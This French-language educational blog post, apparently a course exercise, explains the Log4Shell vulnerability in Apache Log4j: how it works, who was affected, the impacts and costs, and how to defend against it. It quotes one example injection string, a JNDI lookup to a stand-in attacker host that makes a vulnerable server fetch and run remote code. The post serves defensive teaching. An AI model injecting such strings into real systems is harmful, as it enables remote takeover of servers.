 ```yaml
---
title: "TP 4 : Log4Shell : La faille Java qui a ébranlé Internet"
excerpt: "En 2021, une faille critique dans la bibliothèque Log4j a exposé des millions d'applications Java à des attaques à distance. Cet article analyse la vulnérabilité, les impacts mondiaux, et les stratégies de défense pour prévenir une exploitation future."
coverImage: "https://elionis.fr/media/2022/01/log4j.jpg"
date: "2025-07-02T11:00:00.000Z"
author:
    name: JJ Kasper
    picture: "/assets/blog/authors/jj.jpeg"
ogImage:
    url: "https://elionis.fr/media/2022/01/log4j.jpg"
---
```


Découverte en décembre 2021, **Log4Shell** est l’une des vulnérabilités les plus graves jamais identifiées. Présente dans la bibliothèque Java **Apache Log4j**, elle permet à un attaquant d’exécuter du code arbitraire à distance avec une simplicité déconcertante. Son impact est colossal, affectant des millions de serveurs dans le monde.

## Quelle est la vulnérabilité exploitée ?

La vulnérabilité, identifiée sous le nom **CVE-2021-44228**, affecte la bibliothèque de journalisation **Apache Log4j 2**, très utilisée dans les applications Java.

Le problème réside dans le traitement des chaînes de caractères contenant des expressions **JNDI** (Java Naming and Directory Interface), comme `${jndi:ldap://attacker.com/a}`. Log4j les interprète sans restriction, permettant à un attaquant de forcer l’application à charger du code malveillant depuis un serveur distant.

Cette faille est une **vulnérabilité d'exécution de code à distance (RCE)** accessible **sans authentification**.

## Comment l’attaque s’est-elle déroulée ?

Les attaquants ont simplement injecté des expressions `${jndi:...}` dans des champs de saisie (user-agent, formulaires, chat, logs d’erreur, etc.). Dès qu’un serveur vulnérable loguait cette chaîne, Log4j contactait un serveur LDAP malveillant et téléchargeait le code à exécuter, ouvrant ainsi la porte à une prise de contrôle totale.

Des **bots d'exploitation automatisés** ont rapidement scanné Internet pour exploiter la faille à grande échelle. L'attaque ne nécessite **aucune interaction humaine** ni authentification préalable.

## Qui a été touché ?

Pratiquement toutes les entreprises utilisant Java via :

-   **Serveurs Minecraft**, massivement exploités dès les premières heures
-   **Cloud providers** : AWS, Google Cloud, Azure
-   **Applications d’entreprise** : Elasticsearch, Apache Struts, Spring Boot, etc.
-   **Entreprises tech** : Apple, Twitter, Amazon, Cloudflare
-   **Secteur public** : ministères, collectivités, systèmes critiques exposés

## Quels ont été les impacts ?

-   **Fuite de données**, accès à distance, installation de backdoors
-   **Exploitation pour crypto-minage (cryptojacking)** et déploiement de ransomwares
-   **Stress intense sur les équipes de sécurité**
-   **Risque durable** : la faille est difficile à détecter et les dépendances Java sont omniprésentes

Certains chercheurs ont détecté **des millions de tentatives d’exploitation en moins de 48 heures**.

## Quel coût estimé ?

-   **Petite entreprise** : ~10 000 € à 100 000 € (en fonction de l'exposition et de la remédiation)
-   **Moyenne entreprise** : ~200 000 € à 1 million €
-   **Grande entreprise** : Plusieurs **dizaines de millions**
    -   Gartner estime que la faille pourrait coûter **plus de 10 milliards $** à l’échelle mondiale

## Comment s’en protéger ?

1. **Mettre à jour Log4j** vers la version 2.17 ou supérieure (ou remplacer la bibliothèque)
2. **Utiliser des firewalls applicatifs (WAF)** pour bloquer les chaînes JNDI
3. **Désactiver les résolutions JNDI dans Log4j**
4. **Surveiller les logs et endpoints** à la recherche d’expressions suspectes
5. **Recenser toutes les dépendances Java** et les auditer
6. **Appliquer une stratégie de Software Bill of Materials (SBOM)** pour suivre les composants logiciels

## Pourquoi est-ce difficile à éviter ?

-   Log4j est **intégré profondément** dans de nombreuses bibliothèques et frameworks Java
-   De nombreux développeurs ignoraient qu’ils utilisaient Log4j via une **dépendance transitive**
-   Les chaînes d’exploitation peuvent être **obfusquées**, rendant les tentatives d’injection difficiles à détecter
-   Certains environnements sont **très lents à patcher** (IoT, applications legacy, etc.)

## Dans le contexte de votre entreprise, que feriez-vous ?

-   Mettre en place une **cartographie des dépendances** (via des outils comme Syft ou OWASP Dependency-Check)
-   Déployer une **stratégie de détection d'anomalies dans les logs**
-   **Scanner les systèmes exposés** avec des outils comme log4j-detector
-   Mettre en œuvre un **plan de mise à jour continu** pour les dépendances critiques
-   Exiger un **SBOM** pour tous les nouveaux composants logiciels utilisés
-   Tester régulièrement l’environnement avec des **scans de vulnérabilités automatisés**

---
